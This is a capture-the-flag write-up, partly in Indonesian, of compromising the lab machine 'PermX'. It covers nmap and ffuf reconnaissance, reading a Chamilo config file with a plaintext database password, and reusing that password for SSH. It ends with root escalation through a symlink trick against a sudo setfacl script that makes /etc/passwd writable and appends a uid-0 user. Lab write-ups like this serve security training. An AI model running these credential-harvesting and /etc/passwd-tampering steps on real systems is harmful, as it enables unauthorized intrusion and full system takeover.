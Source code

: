 **Nmap Scan Report for 10.10.11.23**
=====================================

Starting Nmap 7.94SVN (https://nmap.org) at 2024-07-08 15:47 WIB

**Host is up (0.34s latency).**

**Not shown: 993 closed tcp ports (conn-refused)**

**Open Ports:**
| Port | State | Service | Version |
| --- | --- | --- | --- |
| 22/tcp | open | ssh | OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open | http | Apache httpd 2.4.52 |
| 801/tcp | filtered | device | |
| 1072/tcp | filtered | cardax | |
| 1086/tcp | filtered | cplscrambler-lg | |
| 8500/tcp | filtered | fmtp | |
| 10003/tcp | filtered | documentum_s | |

**Service Information:**
* Host: 127.0.1.1
* OS: Linux
* CPE: cpe:/o:linux:linux_kernel

**Service Detection:**
Service detection performed. Please report any incorrect results at https://nmap.org/submit/.

**Nmap Done:**
1 IP address (1 host up) scanned in 134.34 seconds

**FFuf Scan Results**
=====================

**Method:** GET
**URL:** http://permx.htb
**Wordlist:** /home/aexon/tools/wordlist/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt
**Header:** Host: FUZZ.permx.htb
**Follow redirects:** false
**Calibration:** false
**Timeout:** 10
**Threads:** 40
**Matcher:** Response status: 200-299,301,302,307,401,403,405,500
**Filter:** Response words: 18

**Scan Results:**

| Subdomain | Status | Size  | Words | Lines | Duration |
| --------- | ------ | ----- | ----- | ----- | -------- |
| www       | 200    | 36182 | 12829 | 587   | 1280ms   |
| lms       | 200    | 19347 | 4910  | 353   | 363ms    |
# USER FLAG

terdapat vuln file upload
refrensi: https://starlabs.sg/advisories/23/23-4220/


saya menemukan credentsial mysql di file path

```bash
(remote) www-data@permx:/var/www/chamilo/app/config$ cat configuration.php


// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```

connect ke mysql
```bash
 mysql -u chamilo -p chamilo
```

ada beberapa hash

```
$2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra -> admin
$2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS -> anon
```

dan kocak nya saya crack semua password wwkwkwk, padahal password db itu password ssh nya wkwkw

```bash
ssh mtz@permx.htb
03F6lY3uXAP2bkW8
```

flag: a509e12378152f21bdaa4702bc2d7c22


# ROOT

```bash
mtz@permx:/tmp$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh


mtz@permx:/tmp$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"

```


## EXPLOIT

```bash
mtz@permx:~$ ln -s /etc/passwd /home/mtz/Aexon
mtz@permx:~$ ls -al
total 36
drwxr-x--- 5 mtz  mtz  4096 Jul  8 11:09 .
drwxr-xr-x 3 root root 4096 Jan 20 18:10 ..
lrwxrwxrwx 1 root root    9 Jan 20 18:12 .bash_history -> /dev/null
-rw-r--r-- 1 mtz  mtz   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 mtz  mtz  3771 Jan  6  2022 .bashrc
drwx------ 2 mtz  mtz  4096 May 31 11:14 .cache
drwxrwxr-x 3 mtz  mtz  4096 Jul  8 10:22 .local
lrwxrwxrwx 1 root root    9 Jan 20 18:37 .mysql_history -> /dev/null
-rw-r--r-- 1 mtz  mtz   807 Jan  6  2022 .profile
drwx------ 2 mtz  mtz  4096 Jan 20 18:10 .ssh
lrwxrwxrwx 1 mtz  mtz    11 Jul  8 11:09 Aexon -> /etc/passwd
-rw-r----- 1 root mtz    33 Jul  8 10:01 user.txt
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/Aexon 
mtz@permx:~$ ls -lah /etc/passwd
-rw-rwxr--+ 1 root root 1.9K Jul  8 11:09 /etc/passwd
mtz@permx:~$ echo 'aexon:openssl passwd -6 aexon^C
mtz@permx:~$ openssl passwd -6 aexon
$6$4eW1JkxsZwiIJH4M$BQIeFg82XUCf6qXYQ0.3e/AC6MipAtamyEjuExPbJAyYjtAELyDTRimkwswwaDlSNFkr5BjM/C/W/nGXNFkPZ0
mtz@permx:~$ echo 'aexon:$6$4eW1JkxsZwiIJH4M$BQIeFg82XUCf6qXYQ0.3e/AC6MipAtamyEjuExPbJAyYjtAELyDTRimkwswwaDlSNFkr5BjM/C/W/nGXNFkPZ0:0:0:root:/root:/bin/bash' >> /etc/passwd
mtz@permx:~$ su aexon
Password: 
root@permx:/home/mtz# cat /root/root.txt
b240d1b3dbbdbeb6d09c469183f80945
root@permx:/home/mtz# 
```

